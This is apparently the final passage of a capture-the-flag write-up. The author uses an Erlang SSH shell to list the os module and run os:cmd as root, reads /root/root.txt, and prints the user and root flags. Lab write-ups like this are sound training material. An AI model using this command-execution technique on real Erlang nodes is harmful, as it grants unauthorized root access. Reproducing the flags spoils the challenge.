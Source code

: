 Okay, we will load the `os` module, let's look what can we do and how to execute commands.

```bash
(ssh_runner@soulmate)3> m(os).
Module: os
MD5: 594e9e9b7ffbf8b367e6cdc48f1e88e1
Object file: /usr/local/lib/erlang/lib/kernel-10.2.5/ebin/os.beam
Compiler options:  [debug_info,
                    {i,"/buildroot/otp/lib/kernel/src/../include"},
                    warn_missing_doc_function,warn_missing_doc_callback,
                    warn_missing_spec_documented]
Exports: 
cmd/1                         module_info/1
cmd/2                         perf_counter/1
env/0                         perf_counter/0
find_executable/1             putenv/2
find_executable/2             set_signal/2
getenv/0                      system_time/1
getenv/2                      system_time/0
getenv/1                      timestamp/0
getpid/0                      type/0
internal_init_cmd_shell/0     unsetenv/1
module_info/0                 version/0
ok
```

Let's use the `cmd/1`, in the format of: `os:cmd("command").`
```bash
(ssh_runner@soulmate)4> os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
(ssh_runner@soulmate)5> os:cmd("cat /root/root.txt").
"544a1035a522e3e063668d29f2c27332\n"
```

and we got the root flag. 

**User Flag:*****`1feca2d1ca1802aa8c8ff6e8e82c8961`***

**Root Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
